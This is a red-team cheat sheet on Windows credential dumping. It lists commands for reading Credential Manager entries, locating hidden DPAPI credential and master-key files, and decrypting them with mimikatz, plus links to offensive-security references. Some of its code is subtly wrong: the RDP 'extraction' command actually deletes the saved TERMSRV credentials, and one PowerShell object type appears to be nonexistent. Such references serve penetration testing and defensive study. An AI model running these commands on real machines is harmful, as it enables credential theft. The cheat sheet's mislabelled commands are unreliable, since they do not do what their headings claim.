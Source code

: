 # Living off the Land

## 01 - Types of credentials to dump

Various credentials will be harvested and they are:
- Web browsers
- Emails
- Video Conferences
- Wi-Fi credentials
- Certificates
- RDP passwords
- etc

## 01 - View Credentials

### 1.1 - PowerShell

```powershell
PS C:\> $credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

## 02 - List Credential Files

TODO: Fill this info

```
C:\> dir /a:h C:\Users\%username%\AppData\Local\Microsoft\Credentials

C:\> dir /a:h C:\Users\%username%\AppData\Roaming\Microsoft\Credentials

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

```
C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SUID>\<GUID>
```

```
mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\ /master-key:
```

## 03 - Extracting Saved RDP Credentials

### 3.1 - PowerShell

```
PS C:\> cmdkey.exe /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey.exe /delete:($_ -split ' ')[-1] }
```

---
## References

### LOFLCAB

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

### Hacktricks

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

### InternalAllTheThings

- [InternalAllTheThings: Windows - DPAPI](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi)

### Hacking Articles

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

### The Hacker Recipes

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [The Hacker Recipes: Cred](https://tools.thehacker.recipes/mimikatz/modules/vault/cred)

- [The Hacker Recipes: Vault](https://tools.thehacker.recipes/mimikatz/modules/vault/list)

### Pentestlab

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)